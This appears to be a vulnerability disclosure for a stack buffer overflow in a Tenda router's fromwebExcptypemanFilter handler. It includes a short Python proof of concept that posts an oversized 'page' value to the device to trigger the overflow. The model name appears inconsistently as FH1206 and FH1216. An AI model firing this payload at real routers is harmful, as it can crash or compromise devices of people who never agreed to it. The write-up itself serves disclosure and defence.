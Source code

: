 # fromwebExcptypemanFilter

## Overview

- Firmware download website: https://www.tendacn.com/hk/download/detail-2344.html

## Affected version

FH1206 V1.2.0.8(8155)_EN

## Vulnerability details

There is a stack buffer overflow vulnerability in Tenda FH1216 V1.2.0.8(8155)_EN, located in the **fromwebExcptypemanFilter** function. The function receives the `page` parameter from a POST request. `   sprintf(v8, "firewall_murlexcplist.asp?page=%s", v3);` The statement will cause a buffer overflow. The `page` value provided by the user may exceed the capacity of the `v8` array, thereby triggering this security vulnerability.

![image](https://github.com/user-attachments/assets/6121f8f8-0393-4cdb-a426-384d5eb69753)



## POC

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/webExcptypemanFilter"
payload = b"a"*2000

data = {"page": payload}
response = requests.post(url, data=data)
print(response.text)
```
![image](https://github.com/user-attachments/assets/4eaf1bbf-18c0-4c84-80bc-c9768da99e3e)

